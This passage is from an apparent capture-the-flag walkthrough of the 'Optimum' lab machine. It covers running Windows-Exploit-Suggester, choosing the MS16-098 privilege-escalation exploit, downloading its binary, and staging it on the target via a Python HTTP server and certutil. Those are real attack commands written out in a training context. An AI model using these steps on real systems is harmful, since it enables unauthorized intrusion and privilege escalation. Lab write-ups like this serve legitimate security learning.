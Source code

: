     cp optimum.systeminfo /opt/scripts/Windows-Exploit-Suggester/
    
    cd /opt/scripts/Windows-Exploit-Suggester/

First let's ensure we have up to date vulnerability definitions:

    ./windows-exploit-suggester.py -u

Next we can run the script against optimum.systeminfo:

    ./windows-exploit-suggester.py -i optimum.systeminfo -d 2020-05-07-mssb.xls

If you look at the options for windows-exploit-suggester.py, you may be tempted to use -l for local exploits only. Do not do so as you may miss out on some potential exploits to use (in this case, the one we are going to use will not show up if you use -l)

![](/images/optimum/33. wes.png)
![](/images/optimum/33. wes_2.png)

(output snipped)

We see several different options including the MS16-032 which we detected earlier. However, for this one we are going to use MS16-098, the second from the top of the list: [https://www.exploit-db.com/exploits/41020](https://www.exploit-db.com/exploits/41020)

Download the 41020.c code from the Exploit-db link above and store it as “41020.c”

Now we need to compile it using gcc:

    gcc 41020.c -o ex.exe

![](/images/optimum/34. gcc.png)

If you receive this error it means your gcc is not set up to cross-compile to Windows executables. That is normal for a default Kali Linux install. Instead, if you look in the 41020.c code, at the top is a comment with a link to a pre-compiled binary on github: [https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)

Use wget to obtain the binary on your Kali machine:

    wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe

![](/images/optimum/35. wget.png)

Now we can transfer our 41020.exe file up to optimum using python's HTTP server on Kali and certutil on optimum:

    python -m SimpleHTTPServer 80

    certutil.exe -urlcache -f http://10.10.14.24/41020.exe 41020.exe

On Kali: 

![](/images/optimum/36. python.png)

On Optimum:

![](/images/optimum/37. certutil.png)
